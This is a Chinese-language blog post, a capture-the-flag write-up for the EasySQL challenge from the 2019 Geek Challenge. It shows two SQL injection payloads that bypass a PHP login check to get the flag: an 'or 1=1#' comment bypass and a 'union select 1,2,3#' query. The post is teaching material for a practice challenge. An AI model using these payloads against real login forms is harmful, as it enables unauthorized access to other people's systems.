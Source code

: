 ```yaml
---
layout: post
title:  "[极客大挑战 2019]EasySQL1解题思路"
categories: Eason
tags:  ctf
author: Eason
---
```


* content
{:toc}

## 看题：
![image text](https://pic.imgdb.cn/item/64d178231ddac507ccb2311b.png)


通过观察控制台页面代码以及输入任意帐号密码后的标头可观察到使用的php表单GET形式进行验证，猜测使用验证方式为:
``select * from tableName where username= 'XXX' and password = 'XXX'``





### 解法1：

尝试使用单引号注入绕过帐号验证并用#注释密码判断语句

``select * from tableName where username = 'XXX' or 1=1#' and password = 'xxx'``

得到flag

![image text](https://pic.imgdb.cn/item/64d17b461ddac507ccb6b218.png)

### 解法2：

使用union联合查询，猜测返回列数，这里之际从1尝试到3列，出现flag
``select * from tableName where username = 'XXX' union select 1,2,3#' and password = 'xxx'``
